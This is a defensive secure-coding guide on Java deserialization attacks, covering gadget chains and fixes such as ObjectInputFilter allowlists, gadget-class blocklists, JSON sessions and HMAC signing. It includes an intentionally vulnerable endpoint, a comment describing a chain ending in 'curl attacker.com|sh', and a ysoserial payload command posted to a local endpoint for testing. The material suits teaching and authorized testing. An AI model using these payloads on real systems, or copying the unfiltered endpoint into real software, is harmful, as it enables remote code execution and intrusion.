

# Java Serialization Security

[← Back to README](../README.md)

---

Java's built-in object serialization (`ObjectInputStream`) is a well-known attack surface. Deserializing untrusted data can trigger **gadget chains** — sequences of existing classes whose constructors, finalizers, or `readObject` methods perform dangerous operations (JNDI lookups, reflection, class loading) when chained together. This is **OWASP A8: Insecure Deserialization**. The fix is either to block dangerous classes via `ObjectInputFilter`, use a safer serialization format (JSON, Protobuf, Avro), or avoid deserializing untrusted data entirely.



---

## The Gadget Chain Attack

```java
// VULNERABLE — deserializing untrusted bytes with no filtering
@PostMapping("/api/session")
public SessionData restoreSession(@RequestBody byte[] sessionBytes) throws Exception {
    try (ObjectInputStream ois = new ObjectInputStream(
            new ByteArrayInputStream(sessionBytes))) {
        return (SessionData) ois.readObject();  // DANGEROUS — no class filter
    }
}

// Why it's dangerous:
// 1. ObjectInputStream calls readObject() on the deserialized object's class
// 2. Many standard library classes have dangerous readObject() implementations
// 3. Attacker crafts bytes that, when deserialized, execute arbitrary code:
//    Commons Collections → InvokerTransformer → Runtime.exec("curl attacker.com|sh")
//    Spring → JndiLocatorDelegate → JNDI lookup → remote classloading
```

---

## Fix 1: ObjectInputFilter — Allowlist

```java
// Allowlist only the classes you expect
@PostMapping("/api/session")
public SessionData restoreSession(@RequestBody byte[] sessionBytes) throws Exception {
    try (ObjectInputStream ois = new ObjectInputStream(
            new ByteArrayInputStream(sessionBytes))) {

        // Java 17+ serialization filter
        ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
            "com.example.session.*;java.lang.String;java.util.ArrayList;" +
            "java.util.HashMap;!*");  // !* = reject everything else

        ois.setObjectInputFilter(filter);
        return (SessionData) ois.readObject();
    }
}

// Global JVM-wide filter (apply at startup)
public static void installGlobalFilter() {
    ObjectInputFilter.Config.setSerialFilter(
        ObjectInputFilter.Config.createFilter(
            "com.example.**;" +
            "java.lang.String;java.lang.Number;java.lang.Boolean;" +
            "java.util.ArrayList;java.util.HashMap;java.util.HashSet;" +
            "!*")
    );
}
```

---

## Fix 2: Blocklist Dangerous Classes

```java
// Blocklist known dangerous gadget classes (defence in depth — not sufficient alone)
ObjectInputFilter denyGadgets = filterInfo -> {
    Class<?> clazz = filterInfo.serialClass();
    if (clazz == null) return ObjectInputFilter.Status.UNDECIDED;

    String name = clazz.getName();

    // Known gadget chain classes
    if (name.startsWith("org.apache.commons.collections") ||
        name.startsWith("org.springframework.beans.factory") ||
        name.startsWith("com.sun.jndi") ||
        name.startsWith("org.apache.xalan") ||
        name.startsWith("com.sun.org.apache.xalan") ||
        name.startsWith("sun.reflect") ||
        name.equals("java.lang.Runtime") ||
        name.equals("java.lang.ProcessBuilder")) {
        return ObjectInputFilter.Status.REJECTED;
    }

    return ObjectInputFilter.Status.UNDECIDED;
};

ObjectInputFilter.Config.setSerialFilter(denyGadgets);
```

---

## Fix 3: Size and Depth Limits

```java
// Limit serialized object graph depth and array sizes to prevent billion-laugh attacks
ObjectInputFilter safetyFilter = ObjectInputFilter.Config.createFilter(
    "maxdepth=10;maxarray=100;maxbytes=65536;maxrefs=500;!*");

// Use in combination with an allowlist:
ObjectInputFilter combined = ObjectInputFilter.merge(allowlistFilter, safetyFilter);
ois.setObjectInputFilter(combined);
```

---

## Fix 4: Replace Java Serialization with JSON

```java
// SAFE — use Jackson instead of Java serialization for session data
@Service
@RequiredArgsConstructor
public class SessionService {

    private final ObjectMapper mapper;
    private final RedisTemplate<String, String> redis;

    public void saveSession(String sessionId, SessionData data) throws IOException {
        String json = mapper.writeValueAsString(data);
        redis.opsForValue().set("session:" + sessionId, json, Duration.ofHours(1));
    }

    public SessionData loadSession(String sessionId) throws IOException {
        String json = redis.opsForValue().get("session:" + sessionId);
        if (json == null) throw new SessionNotFoundException(sessionId);
        return mapper.readValue(json, SessionData.class);
    }
}

// SAFE SessionData — Jackson deserialization only instantiates the declared type
public record SessionData(
    String userId,
    String role,
    Instant expiresAt
) {}
```

---

## Fix 5: Signing Serialized Data

```java
// If you must use Java serialization, sign the payload so tampering is detected
@Service
public class SignedSerializationService {

    private static final String HMAC_ALG = "HmacSHA256";
    private final SecretKey signingKey;

    public byte[] serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        // 1. Serialize to bytes
        try (ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
        }
        byte[] serialized = baos.toByteArray();

        // 2. Compute HMAC
        Mac mac = Mac.getInstance(HMAC_ALG);
        mac.init(signingKey);
        byte[] signature = mac.doFinal(serialized);

        // 3. Prepend signature: [32 bytes HMAC][payload]
        byte[] result = new byte[32 + serialized.length];
        System.arraycopy(signature, 0, result, 0, 32);
        System.arraycopy(serialized, 0, result, 32, serialized.length);
        return result;
    }

    public Object deserialize(byte[] data) throws Exception {
        if (data.length < 32) throw new SecurityException("Invalid payload");

        byte[] signature = Arrays.copyOfRange(data, 0, 32);
        byte[] payload   = Arrays.copyOfRange(data, 32, data.length);

        // Verify HMAC before deserializing
        Mac mac = Mac.getInstance(HMAC_ALG);
        mac.init(signingKey);
        byte[] expected = mac.doFinal(payload);

        if (!MessageDigest.isEqual(signature, expected)) {
            throw new SecurityException("Signature verification failed — payload tampered");
        }

        // Now safe to deserialize (combined with ObjectInputFilter)
        try (ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(payload))) {
            ois.setObjectInputFilter(allowlistFilter());
            return ois.readObject();
        }
    }
}
```

---

## Detecting Vulnerable Dependencies

```bash
# ysoserial — test your application's deserialization endpoints
# (use only in authorized security testing)
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/pwned" > payload.bin
curl -X POST http://localhost:8080/api/session \
     --data-binary @payload.bin \
     -H "Content-Type: application/octet-stream"

# Check if /tmp/pwned was created — if yes, you're vulnerable

# Scan dependencies for known gadget chain libraries
mvn dependency:tree | grep -E "commons-collections|xstream|rome|beanutils"
```

---

## Spring HTTP Session — Safe Alternative

```java
// Replace Java serialization in HTTP session with JSON-backed Spring Session
// (Redis stores JSON, not serialized Java objects)
@Configuration
@EnableRedisHttpSession
public class SessionConfig {

    @Bean
    public RedisSerializer<Object> springSessionDefaultRedisSerializer() {
        return new GenericJackson2JsonRedisSerializer();  // JSON, not Java serialization
    }
}
```

---

## Java Serialization Security Summary

| Concept | Detail |
|---------|--------|
| Gadget chain | Sequence of existing library classes that execute dangerous code when deserialized |
| `ObjectInputFilter` | Java 9+ mechanism to allowlist/blocklist classes before deserialization |
| Allowlist filter | `"com.example.**;java.lang.String;!*"` — reject everything not explicitly listed |
| `maxdepth` / `maxbytes` | Limit object graph depth and payload size — prevent DoS via nested objects |
| ysoserial | Gadget chain PoC generator — use for authorized testing of deserialization endpoints |
| Known gadget libraries | `commons-collections`, `spring-beans`, `xstream`, `rome`, `beanutils` |
| Safe alternative | Use Jackson/JSON, Protobuf, or Avro for data transport — no gadget chains |
| HMAC signing | Sign serialized bytes before storage; verify before deserializing |
| `GenericJackson2JsonRedisSerializer` | Use for Spring Session to store JSON in Redis instead of Java serialization |
| OWASP A8 | Insecure Deserialization — never deserialize untrusted data without filtering |

---

[← Back to README](../README.md)
